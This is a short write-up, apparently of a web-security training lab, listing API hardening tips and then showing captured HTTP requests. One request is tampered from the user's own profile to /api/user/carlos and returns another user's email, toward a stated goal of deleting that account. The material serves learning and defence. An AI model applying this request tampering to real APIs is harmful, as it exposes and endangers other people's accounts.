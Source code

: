 
### Preventing Vulnerabilities in APIs
- Secure the documentation
- Update your docs, so as to update the attacking surface for the legitimate tester.
- Apply an allow-list of HTTP Methods
- Validate the `Content-Type` is expected for each request or response.
- Provide least error information, so as it become non-useful for attacker.
- Use protective measures on all versions of API, not just the current production version.

### Lab: Exploiting an API endpoint using documentation
**Objective :** To delete the account of `carlos` 
- First I checked all the packets involved in Signing In.
- Then I checked the functionality of "Update".
- Then I received a request packet as : 
```
PATCH /api/user/wiener HTTP/2
Host: 0aa20086030260d6827f2086006f004b.web-security-academy.net
Cookie: session=fc0ud45LuPZgyAoVqrtMoI3ZMl2d9rjz
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa20086030260d6827f2086006f004b.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 33
Origin: https://0aa20086030260d6827f2086006f004b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"hello@normal-user.net"}
```
-  I then changed this to : 
```
GET /api/user/carlos HTTP/2
Host: 0aa20086030260d6827f2086006f004b.web-security-academy.net
Cookie: session=fc0ud45LuPZgyAoVqrtMoI3ZMl2d9rjz
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa20086030260d6827f2086006f004b.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 33
Origin: https://0aa20086030260d6827f2086006f004b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"hello@normal-user.net"}
```
- And I received the response as : 
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 57

{"username":"carlos","email":"carlos@carlos-montoya.net"}
```